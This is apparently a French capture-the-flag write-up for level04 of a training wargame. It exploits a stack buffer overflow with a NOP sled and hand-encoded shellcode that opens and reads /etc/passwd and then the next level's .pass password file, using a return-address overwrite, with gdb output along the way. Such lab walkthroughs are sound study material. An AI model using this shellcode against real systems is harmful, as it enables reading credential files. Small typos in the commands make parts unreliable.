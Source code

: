 # Override / Level04

We have a segfault in the first child.
run <<< $(python -c 'print "A" * 164')
Breakpoint 1, 0x08048787 in main ()
(gdb) x/100x $eax
0xb7f:	Cannot access memory at address 0xb7f
(gdb) info registers
eax            0xb7f	2943

0xb7f = 2943 (segfault)

Malheuresement si on utilise un shellcode basic exec /bin/sh on tombe sur 
no exec for you()

Cela est du parce que ptrace check si exec est utlise , si oui il renvoie 11 et du coup d apres la source.c l exe est kill , donc on doit utiliser un autre shellcode:

ce shellcode permet de ouvrir de lire et de write le fichier
https://www.exploit-db.com/exploits/41635

$(python -c 'print "\x90" * 51 + "\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x31\xc0\x99\xb0\x05\xcd\x80\x89\xc7\xb2\xff\x89\xe1\x89\xfb\xb0\x03\xcd\x80\xb3\x01\xb0\x04\xcd\x80\xfe\xca\x80\xfa\x01\x74\x02\xeb\xe9" + "A" * 51 + "\x5c\xd6\xff\xff"* 1')

Il faut juste maintenant changer /etc/passwd en /home/users/level04/.pass

/etc/passwd => sswd//pa//etc => \x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63

/home//users//level04//.pass => pass4//.vel0//leserse//u/hom  => \x68\x70\x61\x73\x73\x68\x35\x2f\x2f\x2e\x68\x76\x65\x6c\x30\x68\x2f\x2f\x6c\x65\x68\x73\x65\x72\x73\x68\x65\x2f\x2f\x75\x68\x2f\x68\x6f\x6d


 (python -c 'print "\x90" * 51 + "\x31\xc9\x51\x68\x70\x61\x73\x73\x68\x35\x2f\x2f\x2e\x68\x76\x65\x6c\x30\x68\x2f\x2f\x6c\x65\x68\x73\x65\x72\x73\x68\x65\x2f\x2f\x75\x68\x2f\x68\x6f\x6d\x89\xe3\x31\xc0\x99\xb0\x05\xcd\x80\x89\xc7\xb2\xff\x89\xe1\x89\xfb\xb0\x03\xcd\x80\xb3\x01\xb0\x04\xcd\x80\xfe\xca\x80\xfa\x01\x74\x02\xeb\xe9" + "\x90" * 31 + "\x90\xd6\xff\xff"* 1') | ./leve04